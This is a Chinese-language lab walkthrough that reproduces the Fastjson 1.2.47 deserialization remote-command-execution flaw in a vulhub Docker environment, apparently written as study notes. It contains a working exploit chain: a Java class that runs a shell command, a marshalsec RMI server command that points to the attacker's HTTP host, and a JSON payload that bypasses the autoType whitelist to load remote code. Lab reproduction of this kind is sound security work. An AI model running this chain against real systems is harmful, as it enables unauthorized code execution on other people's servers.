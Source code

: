 [Fastjson 1.2.47 远程命令执行漏洞](https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce)
============================================================================================

共 3218 字阅读需 3.5 分钟

> Pre-Built Vulnerable Environments Based on Docker-Compose - vulhub/fastjson/1.2.47-rce at master · vulhub/vulhub

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

参考链接：

*   [https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955](https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955)
*   [https://www.freebuf.com/vuls/208339.html](https://www.freebuf.com/vuls/208339.html)

漏洞环境
----

执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

漏洞复现
----

目标环境是`openjdk:8u102`，这个版本没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以简单利用RMI进行命令执行。

## 0x01 首先编译并上传命令执行代码，如`http://192.168.64.1:8000/TouchFile.class`：

TouchFile.java文件

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译：`javac TouchFile.java`，会生成`TouchFile.class`文件



开启http监听，存放`TouchFile.class`

![image-20240607161533065](assets/image-20240607161533065.png)



## 0x02 然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

marshalsec下载地址：

https://github.com/mbechler/marshalsec

打包工具MVN下载地址：

http://maven.apache.org/download.cgi

<img src="assets/image-20211226234304990.png" alt="image-20211226234304990" style="zoom: 33%;" />

mvn打包:`D:\ChromeDownload\apache-maven-3.9.7\bin\mvn clean package -DskipTests`，解释：**clean**：首先清理项目，删除上一次构建生成的所有文件和目录。**-DskipTests**：在这个过程中，跳过测试阶段，不运行任何单元测试或集成测试。（否则错误）

<img src="assets/image-20240607160813760.png" alt="image-20240607160813760" style="zoom: 50%;" />

打包成功，打包后的文件路径:`"D:\ChromeDownload\marshalsec-master\target\marshalsec-0.0.3-SNAPSHOT-all.jar"`

![image-20240607161222058](assets/image-20240607161222058.png)



最终开启监听命令

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.64.1:8000/#TouchFile" 9999
```

![image-20240607161914285](assets/image-20240607161914285.png)



向靶场服务器发送Payload：

```
POST / HTTP/1.1
Host: 192.168.64.130:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=1
Content-Type: application/json
Content-Length: 266

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.64.1:9999/TouchFile",
        "autoCommit":true
    }
}
```



![image-20240607161405793](assets/image-20240607161405793.png)



marshalsec监听被请求

![image-20240607165610156](assets/image-20240607165610156.png)



TouchFile.class文件被请求

![image-20240607165543806](assets/image-20240607165543806.png)



可见，命令`touch /tmp/success`已成功执行：

![img](assets/2-171774754495512.png)



更多利用方法请参考JNDI注入相关知识。

repository:87699760